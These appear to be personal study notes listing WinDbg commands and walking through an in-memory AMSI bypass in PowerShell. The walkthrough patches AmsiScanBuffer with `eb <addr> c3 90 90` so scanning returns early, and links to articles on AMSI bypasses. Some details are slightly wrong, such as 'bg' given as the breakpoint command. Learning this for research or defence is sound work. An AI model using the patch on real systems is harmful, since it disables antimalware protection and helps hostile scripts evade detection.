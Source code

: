 
### Windbg Commands

| Command   | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| x         | examine all symbols that match a given string (eg `x amsi!Amsi*`)                        |
| bg        | set a break point                                                                        |
| g         | let process continue                                                                     |
| r         | dump resister                                                                            |
| r r\<reg> | dump a particular register value                                                         |
| u         | unassemble (go to that memory address)                                                   |
| lm        | lm has a new DML (debugger markup language) mode where module names link to lmv commands |

### Analyzing AmsiScanBuffer

```c
HRESULT AmsiScanBuffer(
  HAMSICONTEXT amsiContext,
  PVOID buffer,
  ULONG length,
  LPCWSTR contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT *result
);
```

- launch Powershell window
- launch Windbg
- attach Windbg to Powershell session
- in Windbg set a break point for AmsiScanBuffer
```cmd
bp Amsi!AmsiScanBuffer
```
- allow the powershell interactivity to continue using `g` in Windbg
- on the powershell cmd line, type `'amsituils` to trigger AMSI
```powershell
'amsiutils'
```
![](Images/WindbgContinue.png)
- find the return instruction is c3
![](Images/WindbgAmsiScanBufferLocation.png)![](Images/WindbgAmsiScanBufferCalls.png)
- apparently we want to overwrite the address highlighted in gray (TODO: figure out why exactly)
- in Windbg `u 00007ffd72e9387b` to move to that address
![](Images/WindbgUnassemble.png)
- overwrite with this command `eb 00007ffd72e9387b c3 90 90` (90 are nop)
![](Images/WindbgUnassemble-02.png)
- address is  now altered to `ret` instead of `mov edi,r8d`


### Looking at next 20 commands 64-bit

 - `u rip L20`
- **`u`**: This is the command to disassemble code. It stands for "unassemble."
- **`rip`**: This is the register that holds the address of the next instruction to be executed. In other words, it's the current instruction pointer.
- **`L20`**: This specifies the length of the disassembly in terms of instructions. In this case, `L20` means disassemble the next 20 instructions.
### Websites viewed for reference

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b
- http://windbg.info/doc/1-common-cmds.html
